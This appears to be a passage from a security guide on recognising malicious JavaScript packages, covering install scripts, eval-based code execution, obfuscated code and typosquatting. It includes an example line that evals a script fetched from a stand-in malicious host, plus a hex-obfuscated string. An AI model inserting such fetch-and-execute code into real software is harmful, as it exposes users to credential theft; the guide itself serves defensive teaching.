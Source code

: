 

-  **How to Stay Safe:** Always check the `package.json` file before installing a package. Use `npm install --ignore-scripts` if unsure.




### `eval()` and Dynamic Code Execution



-  **Description:** The `eval` function and similar methods (`new Function()`, `setTimeout('code')`, `setInterval('code')`) execute arbitrary code, which attackers can exploit to steal credentials, inject malicious scripts, or run unauthorized commands.



-  **Example:**



```

eval(fetch('https://malicious-site.com/steal-info.js'));

```



-  **How to Stay Safe:** Avoid using `eval()` or any dynamically executed code. Use safer alternatives like `JSON.parse()` or secure function calls.




### Obfuscated or Minified Code



-  **Description:** Attackers often hide malicious payloads in minified or obfuscated code, making it harder to detect harmful behavior.



-  **Example:**



```

var a = "\x6c\x6f\x63\x61\x74\x69\x6f\x6e";

```



-  **How to Stay Safe:** If you encounter obfuscated code, use tools like `js-beautify` or `deobfuscator.io` to inspect it before execution.




### Supply Chain Attacks & Dependency Hijacking



-  **Description:** Attackers publish malicious packages with names similar to popular ones (typosquatting) or inject backdoors into compromised packages.
